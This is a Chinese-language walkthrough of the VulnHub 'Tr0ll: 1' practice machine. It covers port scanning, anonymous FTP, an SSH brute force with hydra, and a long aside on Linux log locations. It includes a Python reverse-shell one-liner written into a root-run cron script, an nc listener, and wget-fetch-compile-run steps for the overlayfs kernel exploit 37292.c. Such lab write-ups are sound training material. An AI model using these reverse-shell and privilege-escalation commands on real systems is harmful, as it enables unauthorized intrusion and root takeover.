## TR0LL: 1

项目地址：

```
https://www.vulnhub.com/entry/tr0ll-1,100/
```

> ## TR0LL: 1
>
> Tr0ll was inspired by the constant trolling of the machines within the OSCP labs.
>
> The goal is simple, gain root and get Proof.txt from the /root directory.
>
> Not for the easily frustrated! Fair warning, there be trolls ahead!
>
> Difficulty: Beginner ; Type: boot2root
>
> ------
>
> Special thanks to @OS_Eagle11 and @superkojiman for suffering through the testing all the way to root!
>
> The machine should pull an IP using DHCP, if you have any problems, contact me for a password to get it to working.
>
> Feedback is always appreciated!
>
> @maleus21

## 1.信息收集

```shell
 netdiscover -r 192.168.32.0/24
 5 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 300
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.32.1    00:50:56:c0:00:08      1      60  VMware, Inc.
 192.168.32.2    00:50:56:eb:0a:2d      2     120  VMware, Inc.
 192.168.32.146  00:0c:29:af:6d:5d      1      60  VMware, Inc.
 192.168.32.254  00:50:56:e2:01:ef      1      60  VMware, Inc.
```

### 1.1端口扫描

```shell
 masscan 192.168.32.146 -p 1-65535 --rate=1000
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-02-16 05:43:33 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 21/tcp on 192.168.32.146
Discovered open port 22/tcp on 192.168.32.146
Discovered open port 80/tcp on 192.168.32.146
```

```shell
nmap -sS -sV -T4  -A 192.168.32.146 -p  80,21,22
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-16 01:02 EST
Nmap scan report for 192.168.32.146
Host is up (0.00058s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.32.145
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 09  2014 lol.pcap [NSE: writeable]
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|   256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
|_  256 b2:8b:e2:46:5c:ef:fd:dc:72:f7:10:7e:04:5f:25:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/secret
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 00:0C:29:AF:6D:5D (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.58 ms 192.168.32.146
```

**提示ftp匿名登陆**


访问80端口 ，没有什么发现



目录扫描也没有什么发现。


### 1.2ftp登录

MSF扫描

```shell
msf6 > search ftp_version

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/ftp/ftp_version                   normal  No     FTP Version Scanner


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/ftp/ftp_version

msf6 > use 0
msf6 auxiliary(scanner/ftp/ftp_version) > options

Module options (auxiliary/scanner/ftp/ftp_version):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   FTPPASS  mozilla@example.com  no        The password for the specified username
   FTPUSER  anonymous            no        The username to authenticate as
   RHOSTS                        yes       The target host(s), see https://github.com/rapid7/metasploit
                                           -framework/wiki/Using-Metasploit
   RPORT    21                   yes       The target port (TCP)
   THREADS  1                    yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/ftp/ftp_version) > set rhosts 192.168.32.146
rhosts => 192.168.32.146
msf6 auxiliary(scanner/ftp/ftp_version) > run

[+] 192.168.32.146:21     - FTP Banner: '220 (vsFTPd 3.0.2)\x0d\x0a'
[*] 192.168.32.146:21     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

FTP的匿名登录一般有三种：
1、 用户名：anonymous 密码：Email或者为空
2、 用户名：FTP 密码：FTP或者为空
3、 用户名：USER 密码：pass

```
ftp> user anonymous
密码： 空
```


```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     0            8068 Aug 09  2014 lol.pcap
```


下载这个文件：

```
get lol.pcap
```



```
sup3rs3cr3tdirlol
```

这个是文件目录，真是没想到。。。。。



下载roflmao 放在kali里面

```shell
┌──(kali㉿kali)-[~]
└─$ file roflmao
roflmao: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=5e14420eaa59e599c2f508490483d959f3d2cf4f, not stripped
```

运行：

```shell
chmod +x roflmao
./roflmao
```








文件夹里面的文件内容：

which_one_lol.txt

```
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

Pass.txt里面的内容：

```
Good_job_:)
```

## 2.getshell

把可能的用户名制作成字典  hydra爆破

```
 hydra -L user.txt -P pass.txt ssh://192.168.32.146 -w 10
```



ssh连接服务器


```shell
ssh overflow@192.168.32.146 
#输入密码  Pass.txt登录
```


## 3.提权方式一 反弹shell

正当找提权脚本的时候发现ssh断开了

每隔几分钟就断开



查看定时任务日志：

```shell
cat /var/log/cronlog
*/2 * * * * cleaner.py
```


附录：

```shell
1、/var/log/boot.log

记录了系统在引导过程中发生的事件，就是Linux系统开机自检过程显示的信息

2、/var/log/cron

与定时任务相关的日志信息

3、/var/log/lastlog

记录了系统上所有帐号最近一次登入系统时的相关信息。lastlog命令就是利用这个文件所记录的信息来显示结果

4、/var/log/maillog

记录邮件的来往信息，其实主要记录SMTP和POP3（IMAP）协议提供者所产生的信息

5、/var/log/messages or /var/log/syslog

记录了系统发生的所有错误信息（或者是重要的信息），所以这个文件相当重要；如果系统发生莫名的错误时，这个文件是必查的日志文件之一。（基于 Debian 的系统如 Ubuntu 在 /var/log/syslog 中存储它们，而基于 RedHat 的系统如 RHEL 或 CentOS 则在 /var/log/messages 中存储它们）

6、/var/log/secure

一般用来记录安全相关的信息，记录用户和工作组变换情况、用户登陆认证情况

7、/var/log/wtmp 

该日志文件永久记录每个用户登录、注销及系统的启动、停机的事件，使用last命令查看

8、/var/log/btmp

记录Linux登陆失败的用户、时间以及远程IP地址

9、/var/run/utmp

该日志文件记录有关当前登录的每个用户的信息。如 who、w、users、finger等就需要访问这个文件

补充常见中间件的日志位置：

1、apache的日志路径一般配置在httpd.conf的目录下或者位于/var/log/http

2、IIS的日志默认在系统目录下的Logfiles下的目录当中

3、tomcat 一般位于tomcat安装目录下的一个logs文件夹下面

4、Nginx日志一般配置在nginx.conf或者vhost的conf文件中日志一般以日期命名，方便后续审计与安全人员进行分析


#查看日志常用命令
    tail:  
       -n  是显示行号；相当于nl命令；例子如下：
            tail -100f test.log      实时监控100行日志
            tail  -n  10  test.log   查询日志尾部最后10行的日志;

            tail -n +10 test.log    查询10行之后的所有日志;

    head:  

        跟tail是相反的，tail是看后多少行日志；例子如下：

            head -n 10  test.log   查询日志文件中的头10行日志;

            head -n -10  test.log   查询日志文件除了最后10行的其他所有日志;

    cat： 

        tac是倒序查看，是cat单词反写；例子如下：

            cat -n test.log |grep "debug"   查询关键字的日志

 

2. 应用场景一：按行号查看---过滤出关键字附近的日志

     1）cat -n test.log |grep "debug"  得到关键日志的行号

     2）cat -n test.log |tail -n +92|head -n 20  选择关键字所在的中间一行. 然后查看这个关键字前10行和后10行的日志:

            tail -n +92表示查询92行之后的日志

            head -n 20 则表示在前面的查询结果里再查前20条记录

 

3. 应用场景二：根据日期查询日志

      sed -n '/2014-12-17 16:17:20/,/2014-12-17 16:17:36/p'  test.log

      特别说明:上面的两个日期必须是日志中打印出来的日志,否则无效；

                      先 grep '2014-12-17 16:17:20' test.log 来确定日志中是否有该 时间点

 

4.应用场景三：日志内容特别多，打印在屏幕上不方便查看
    (1)使用more和less命令,

           如： cat -n test.log |grep "debug" |more     这样就分页打印了,通过点击空格键翻页

    (2)使用 >xxx.txt 将其保存到文件中,到时可以拉下这个文件分析

            如：cat -n test.log |grep "debug"  >debug.txt
```

寻找脚本：cleaner.py

```shell
find -name cleaner.py  2>/dev/null   #忽略掉错误提示信息
```



查看文件：

`cat /lib/log/cleaner.py`

```python

#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
```

注意： 这个并不是把我们踢出的脚本，功能只是删除/tmp 目录里面的文件，计划任务一般情况是root权限运行， 不过我们可以借助它反弹root权限的shell，就是把里面的内容修改为我们的反弹shell。


### 3.1python建立反弹shell脚本

各种类型的反弹shell在线生成https://shell.nctry.com/

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.145",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

由于我们不能直接编辑cleaner.py这个脚本，用echo命令把代码加到cleaner.py里面。

```shell
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.145",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' > /lib/log/cleaner.py
```


### 3.2Getshell：

kali开启监听：

```
nc -lvnp 5555
```


稍等1分钟左右就可以接收到反弹的shell




## 


## 4.提权方式二 overlayfs内核提权：

内核版本为3.1.3  kali`searchsploit ubuntu`  可以内核提权 

kali启动服务器：

```shell
 cp  /usr/share/exploitdb/exploits/linux/local/37292.c .
 python -m http.server 80
```


目标机器：执行下载

```shell
wget http://192.168.32.145:80/37292.c
cc 37292.c
./a.out
whomai
```




看下脚本内容:

```shell
crontab -l
cat /opt/lmao.py
```


